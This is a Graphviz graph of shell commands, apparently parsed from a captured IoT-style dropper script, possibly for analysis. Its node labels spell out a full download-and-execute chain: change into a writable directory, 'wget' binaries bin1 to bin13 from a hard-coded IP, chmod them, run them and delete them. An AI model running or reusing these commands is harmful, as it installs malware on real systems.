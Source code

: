 digraph {
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 478 [label="||,"];
478 [label="wget http://95.211.244.151/bin1 "];
478 -> 480 [label=";,"];
480 [label="chmod +x bin1 "];
480 -> 482 [label=";,"];
482 [label="./bin1 "];
482 -> 484 [label=";,"];
484 [label="rm -rf bin1 "];
484 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 496 [label="||,"];
496 [label="wget http://95.211.244.151/bin2 "];
496 -> 498 [label=";,"];
498 [label="chmod +x bin2 "];
498 -> 500 [label=";,"];
500 [label="./bin2 "];
500 -> 502 [label=";,"];
502 [label="rm -rf bin2 "];
502 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 514 [label="||,"];
514 [label="wget http://95.211.244.151/bin3 "];
514 -> 516 [label=";,"];
516 [label="chmod +x bin3 "];
516 -> 518 [label=";,"];
518 [label="./bin3 "];
518 -> 520 [label=";,"];
520 [label="rm -rf bin3 "];
520 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 532 [label="||,"];
532 [label="wget http://95.211.244.151/bin4 "];
532 -> 534 [label=";,"];
534 [label="chmod +x bin4 "];
534 -> 536 [label=";,"];
536 [label="./bin4 "];
536 -> 538 [label=";,"];
538 [label="rm -rf bin4 "];
538 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 550 [label="||,"];
550 [label="wget http://95.211.244.151/bin5 "];
550 -> 552 [label=";,"];
552 [label="chmod +x bin5 "];
552 -> 554 [label=";,"];
554 [label="./bin5 "];
554 -> 556 [label=";,"];
556 [label="rm -rf bin5 "];
556 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 568 [label="||,"];
568 [label="wget http://95.211.244.151/bin6 "];
568 -> 570 [label=";,"];
570 [label="chmod +x bin6 "];
570 -> 572 [label=";,"];
572 [label="./bin6 "];
572 -> 574 [label=";,"];
574 [label="rm -rf bin6 "];
574 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 586 [label="||,"];
586 [label="wget http://95.211.244.151/bin7 "];
586 -> 588 [label=";,"];
588 [label="chmod +x bin7 "];
588 -> 590 [label=";,"];
590 [label="./bin7 "];
590 -> 592 [label=";,"];
592 [label="rm -rf bin7 "];
592 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 604 [label="||,"];
604 [label="wget http://95.211.244.151/bin8 "];
604 -> 606 [label=";,"];
606 [label="chmod +x bin8 "];
606 -> 608 [label=";,"];
608 [label="./bin8 "];
608 -> 610 [label=";,"];
610 [label="rm -rf bin8 "];
610 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 622 [label="||,"];
622 [label="wget http://95.211.244.151/bin9 "];
622 -> 624 [label=";,"];
624 [label="chmod +x bin9 "];
624 -> 626 [label=";,"];
626 [label="./bin9 "];
626 -> 628 [label=";,"];
628 [label="rm -rf bin9 "];
628 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 640 [label="||,"];
640 [label="wget http://95.211.244.151/bin10 "];
640 -> 642 [label=";,"];
642 [label="chmod +x bin10 "];
642 -> 644 [label=";,"];
644 [label="./bin10 "];
644 -> 646 [label=";,"];
646 [label="rm -rf bin10 "];
646 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 658 [label="||,"];
658 [label="wget http://95.211.244.151/bin11 "];
658 -> 660 [label=";,"];
660 [label="chmod +x bin11 "];
660 -> 662 [label=";,"];
662 [label="./bin11 "];
662 -> 664 [label=";,"];
664 [label="rm -rf bin11 "];
664 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 676 [label="||,"];
676 [label="wget http://95.211.244.151/bin12 "];
676 -> 678 [label=";,"];
678 [label="chmod +x bin12 "];
678 -> 680 [label=";,"];
680 [label="./bin12 "];
680 -> 682 [label=";,"];
682 [label="rm -rf bin12 "];
682 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 694 [label="||,"];
694 [label="wget http://95.211.244.151/bin13 "];
694 -> 696 [label=";,"];
696 [label="chmod +x bin13 "];
696 -> 698 [label=";,"];
698 [label="./bin13 "];
698 -> 699 [label=";,"];
699 [label="rm -rf bin13 "];
699 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 478 [label="||,"];
478 [label="wget http://95.211.244.151/bin1 "];
478 -> 480 [label=";,"];
480 [label="chmod +x bin1 "];
480 -> 482 [label=";,"];
482 [label="./bin1 "];
482 -> 484 [label=";,"];
484 [label="rm -rf bin1 "];
484 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 496 [label="||,"];
496 [label="wget http://95.211.244.151/bin2 "];
496 -> 498 [label=";,"];
498 [label="chmod +x bin2 "];
498 -> 500 [label=";,"];
500 [label="./bin2 "];
500 -> 502 [label=";,"];
502 [label="rm -rf bin2 "];
502 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 514 [label="||,"];
514 [label="wget http://95.211.244.151/bin3 "];
514 -> 516 [label=";,"];
516 [label="chmod +x bin3 "];
516 -> 518 [label=";,"];
518 [label="./bin3 "];
518 -> 520 [label=";,"];
520 [label="rm -rf bin3 "];
520 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 532 [label="||,"];
532 [label="wget http://95.211.244.151/bin4 "];
532 -> 534 [label=";,"];
534 [label="chmod +x bin4 "];
534 -> 536 [label=";,"];
536 [label="./bin4 "];
536 -> 538 [label=";,"];
538 [label="rm -rf bin4 "];
538 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 550 [label="||,"];
550 [label="wget http://95.211.244.151/bin5 "];
550 -> 552 [label=";,"];
552 [label="chmod +x bin5 "];
552 -> 554 [label=";,"];
554 [label="./bin5 "];
554 -> 556 [label=";,"];
556 [label="rm -rf bin5 "];
556 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 568 [label="||,"];
568 [label="wget http://95.211.244.151/bin6 "];
568 -> 570 [label=";,"];
570 [label="chmod +x bin6 "];
570 -> 572 [label=";,"];
572 [label="./bin6 "];
572 -> 574 [label=";,"];
574 [label="rm -rf bin6 "];
574 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 586 [label="||,"];
586 [label="wget http://95.211.244.151/bin7 "];
586 -> 588 [label=";,"];
588 [label="chmod +x bin7 "];
588 -> 590 [label=";,"];
590 [label="./bin7 "];
590 -> 592 [label=";,"];
592 [label="rm -rf bin7 "];
592 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 604 [label="||,"];
604 [label="wget http://95.211.244.151/bin8 "];
604 -> 606 [label=";,"];
606 [label="chmod +x bin8 "];
606 -> 608 [label=";,"];
608 [label="./bin8 "];
608 -> 610 [label=";,"];
610 [label="rm -rf bin8 "];
610 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 622 [label="||,"];
622 [label="wget http://95.211.244.151/bin9 "];
622 -> 624 [label=";,"];
624 [label="chmod +x bin9 "];
624 -> 626 [label=";,"];
626 [label="./bin9 "];
626 -> 628 [label=";,"];
628 [label="rm -rf bin9 "];
628 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 640 [label="||,"];
640 [label="wget http://95.211.244.151/bin10 "];
640 -> 642 [label=";,"];
642 [label="chmod +x bin10 "];
642 -> 644 [label=";,"];
644 [label="./bin10 "];
644 -> 646 [label=";,"];
646 [label="rm -rf bin10 "];
646 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 658 [label="||,"];
658 [label="wget http://95.211.244.151/bin11 "];
658 -> 660 [label=";,"];
660 [label="chmod +x bin11 "];
660 -> 662 [label=";,"];
662 [label="./bin11 "];
662 -> 664 [label=";,"];
664 [label="rm -rf bin11 "];
664 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 676 [label="||,"];
676 [label="wget http://95.211.244.151/bin12 "];
676 -> 678 [label=";,"];
678 [label="chmod +x bin12 "];
678 -> 680 [label=";,"];
680 [label="./bin12 "];
680 -> 682 [label=";,"];
682 [label="rm -rf bin12 "];
682 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 694 [label="||,"];
694 [label="wget http://95.211.244.151/bin13 "];
694 -> 696 [label=";,"];
696 [label="chmod +x bin13 "];
696 -> 698 [label=";,"];
698 [label="./bin13 "];
698 -> 699 [label=";,"];
699 [label="rm -rf bin13 "];
699 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 478 [label="||,"];
478 [label="wget http://95.211.244.151/bin1 "];
478 -> 480 [label=";,"];
480 [label="chmod +x bin1 "];
480 -> 482 [label=";,"];
482 [label="./bin1 "];
482 -> 484 [label=";,"];
484 [label="rm -rf bin1 "];
484 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 496 [label="||,"];
496 [label="wget http://95.211.244.151/bin2 "];
496 -> 498 [label=";,"];
498 [label="chmod +x bin2 "];
498 -> 500 [label=";,"];
500 [label="./bin2 "];
500 -> 502 [label=";,"];
502 [label="rm -rf bin2 "];
502 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 514 [label="||,"];
514 [label="wget http://95.211.244.151/bin3 "];
514 -> 516 [label=";,"];
516 [label="chmod +x bin3 "];
516 -> 518 [label=";,"];
518 [label="./bin3 "];
518 -> 520 [label=";,"];
520 [label="rm -rf bin3 "];
520 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 532 [label="||,"];
532 [label="wget http://95.211.244.151/bin4 "];
532 -> 534 [label=";,"];
534 [label="chmod +x bin4 "];
534 -> 536 [label=";,"];
536 [label="./bin4 "];
536 -> 538 [label=";,"];
538 [label="rm -rf bin4 "];
538 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 550 [label="||,"];
550 [label="wget http://95.211.244.151/bin5 "];
550 -> 552 [label=";,"];
552 [label="chmod +x bin5 "];
552 -> 554 [label=";,"];
554 [label="./bin5 "];
554 -> 556 [label=";,"];
556 [label="rm -rf bin5 "];
556 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 568 [label="||,"];
568 [label="wget http://95.211.244.151/bin6 "];
568 -> 570 [label=";,"];
570 [label="chmod +x bin6 "];
570 -> 572 [label=";,"];
572 [label="./bin6 "];
572 -> 574 [label=";,"];
574 [label="rm -rf bin6 "];
574 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 586 [label="||,"];
586 [label="wget http://95.211.244.151/bin7 "];
586 -> 588 [label=";,"];
588 [label="chmod +x bin7 "];
588 -> 590 [label=";,"];
590 [label="./bin7 "];
590 -> 592 [label=";,"];
592 [label="rm -rf bin7 "];
592 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 604 [label="||,"];
604 [label="wget http://95.211.244.151/bin8 "];
604 -> 606 [label=";,"];
606 [label="chmod +x bin8 "];
606 -> 608 [label=";,"];
608 [label="./bin8 "];
608 -> 610 [label=";,"];
610 [label="rm -rf bin8 "];
610 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 622 [label="||,"];
622 [label="wget http://95.211.244.151/bin9 "];
622 -> 624 [label=";,"];
624 [label="chmod +x bin9 "];
624 -> 626 [label=";,"];
626 [label="./bin9 "];
626 -> 628 [label=";,"];
628 [label="rm -rf bin9 "];
628 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 640 [label="||,"];
640 [label="wget http://95.211.244.151/bin10 "];
640 -> 642 [label=";,"];
642 [label="chmod +x bin10 "];
642 -> 644 [label=";,"];
644 [label="./bin10 "];
644 -> 646 [label=";,"];
646 [label="rm -rf bin10 "];
646 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 658 [label="||,"];
658 [label="wget http://95.211.244.151/bin11 "];
658 -> 660 [label=";,"];
660 [label="chmod +x bin11 "];
660 -> 662 [label=";,"];
662 [label="./bin11 "];
662 -> 664 [label=";,"];
664 [label="rm -rf bin11 "];
664 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 676 [label="||,"];
676 [label="wget http://95.211.244.151/bin12 "];
676 -> 678 [label=";,"];
678 [label="chmod +x bin12 "];
678 -> 680 [label=";,"];
680 [label="./bin12 "];
680 -> 682 [label=";,"];
682 [label="rm -rf bin12 "];
682 -> 684 [label=";,"];
684 [label="cd /tmp "];
684 -> 684
686 [label="cd /var/run "];
686 -> 688 [label="||,"];
688 [label="cd /mnt "];
688 -> 690 [label="||,"];
690 [label="cd /root "];
690 -> 692 [label="||,"];
692 [label="cd / "];
692 -> 694 [label="||,"];
694 [label="wget http://95.211.244.151/bin13 "];
694 -> 696 [label=";,"];
696 [label="chmod +x bin13 "];
696 -> 698 [label=";,"];
698 [label="./bin13 "];
698 -> 699 [label=";,"];
}
